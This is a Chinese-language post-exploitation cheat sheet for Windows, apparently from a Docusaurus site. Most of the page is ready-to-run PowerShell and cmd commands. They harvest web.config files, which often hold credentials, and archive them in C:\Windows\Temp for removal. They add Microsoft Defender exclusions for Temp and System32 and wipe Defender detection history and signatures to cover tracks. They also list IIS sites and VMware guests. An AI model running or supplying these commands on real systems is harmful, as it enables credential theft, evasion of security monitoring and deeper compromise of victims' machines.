

repository: Randark-JMT/Treasure-House · page: docs/CheatSheet/Windows_post-exploitation/index.html · generator: docusaurus

# Windows 后渗透

## 文件挖掘回传

```powershell
Get-ChildItem -Path E:\ -Filter Web.Config -Recurse -ErrorAction SilentlyContinue | Select-Object -ExpandProperty FullName

Compress-Archive -Path (Get-ChildItem -Path "E:\" -Filter "Web.Config" -Recurse -ErrorAction SilentlyContinue).FullName -DestinationPath "C:\Windows\Temp\webconfigs.zip"

Get-ChildItem -Path "E:\" -Filter "web.config" -Recurse -ErrorAction SilentlyContinue | ForEach-Object { $_.FullName.Substring(3) } | Set-Content "C:\Windows\Temp\webconfigs.txt" -Encoding utf8
# 切换为 cmd
C:\Windows\Temp\7zr.exe a -t7z "C:\Windows\Temp\webconfigs.7z" -scsUTF-8 @"C:\Windows\Temp\webconfigs.txt"
```

## Internet Information Services (IIS)

### 列出网站目录

```bash
c:\windows\system32\inetsrv\appcmd list vdir
```

## Microsoft Defender

### 查询排除项

```powershell
Get-MpPreference | Select-Object -Property ExclusionPath, ExclusionProcess, ExclusionExtension
```

添加排除项

```powershell
Add-MpPreference -ExclusionPath "D:\MySafeFolder"
Add-MpPreference -ExclusionPath "C:\Windows\Temp"
Add-MpPreference -ExclusionPath "C:\Windows\System32"
Add-MpPreference -ExclusionPath "C:\Users\Public\Libraries"
```

取消排除项

```powershell
Remove-MpPreference -ExclusionPath "C:\Windows\Temp"
```

查询情报

```powershell
Get-MpThreatDetection
```

删除情报

```bash
"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDynamicSignature

# Powershell
Remove-Item "C:\ProgramData\Microsoft\Windows Defender\Scans\History\Service\*" -Recurse -Force
```

## Vmware Workstation

```bash
"C:\Program Files (x86)\VMware\VMware Player\vmrun.exe"
"C:\Program Files (x86)\VMware\VMware Workstation\vmrun.exe"
```

收集所有在运行的虚拟机

需要注意的是，这里运行命令进行查询的权限需要与运行虚拟机的用户权限一致，过高或者过低都会导致查询不到虚拟机

```bash
"C:\Program Files (x86)\VMware\VMware Workstation\vmrun.exe" list
```

收集所有的虚拟机网卡

```bash
"C:\Program Files (x86)\VMware\VMware Workstation\vmrun.exe" listHostNetworks
```

获取虚拟机网卡地址

```bash
"C:\Program Files (x86)\VMware\VMware Workstation\vmrun.exe" -T ws getGuestIPAddress "E:\WIN11E TS - TPE NEW GRM 09\WIN11E TS - TPE.vmx" -wait
```

制作快照

```bash
"C:\Program Files (x86)\VMware\VMware Player\vmrun.exe" -T ws snapshot "C:\VM\WinServer_2012R2\Windows Server 2012.vmx" 2025-07-11
```

## 工具参考
